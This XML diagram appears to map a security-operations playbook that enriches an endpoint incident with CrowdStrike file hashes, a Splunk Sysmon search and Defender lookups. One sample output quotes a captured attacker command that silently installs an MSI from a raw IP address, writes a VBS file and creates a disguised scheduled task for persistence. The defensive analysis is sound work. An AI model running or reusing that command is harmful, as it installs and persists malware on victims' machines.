        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-82" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;c:\\windows\\commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks &quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Wscript.Shell&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;d3commander.msi&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-83" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;Endpoint ID :&amp;nbsp;&lt;/p&gt;&amp;nbsp;[&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;]&lt;br&gt;&lt;br&gt;File Path :&amp;nbsp;&lt;br&gt;&lt;br&gt;c:\windows\commander.exe" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-84" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-83">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="950" y="260" as="sourcePoint" />
            <mxPoint x="1040" y="190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-85" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Algorithm&quot;: &quot;SHA256&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Hash&quot;: &quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Path&quot;: &quot;C:\\windows\\commander.exe&quot;&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-86" value="Investigation-Enrichment Commander&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1035" y="370" width="240" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-96" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-90" target="NKeEgVbL9whLPdXC6YmX-95">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-90" value="Correlation&lt;br&gt;Stage" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1160" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-92" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-90">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1010" y="300" as="sourcePoint" />
            <mxPoint x="1060" y="250" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-93" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;Data :&amp;nbsp;&lt;/div&gt;[{&quot;Algorithm&quot;:&quot;SHA256&quot;,&quot;Hash&quot;:&quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&quot;Path&quot;:&quot;C:\\windows\\commander.exe&quot;}]&lt;br&gt;&lt;br&gt;Title :&amp;nbsp;Commander.exe Enrichment&lt;br&gt;&lt;br&gt;Description :&amp;nbsp;Get the hash value of the executor command.exe&lt;br&gt;&lt;br&gt;Highlight Values :&amp;nbsp;[&quot;AC0CE449E9FCCCC2F1747833C37FF0D1CD22875DD925A247A15F04EE0B318A58&quot;]&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1055" y="490" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-94" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-93" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1170" y="460" as="sourcePoint" />
            <mxPoint x="1160" y="400" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-101" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-100">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-95" value="Splunk Search&lt;br&gt;Command - RSA_SplunkSearch" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1360" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-97" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query :&amp;nbsp;sourcetype=&quot;WinEventLog:Microsoft-Windows-Sysmon/Operational&quot; EventCode=1 Image=&quot;C:\\Program Files\\WinRAR\\WinRAR.exe&quot; {{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[0].EventData.device.hostname&#39;)}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-98" value="" style="endArrow=none;html=1;rounded=0;entryX=0.471;entryY=1.021;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-97">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1430" y="270" as="sourcePoint" />
            <mxPoint x="1480" y="220" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-99" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-104" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-100" target="NKeEgVbL9whLPdXC6YmX-103">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-100" value="Get File&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1665" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-102" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;book33.rar&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1625" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-103" value="Get Emails Info&lt;br&gt;Command - RSA_DefenderEnrichment" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1865" y="270" width="175" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-105" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;book33.rar&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1865" y="110" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
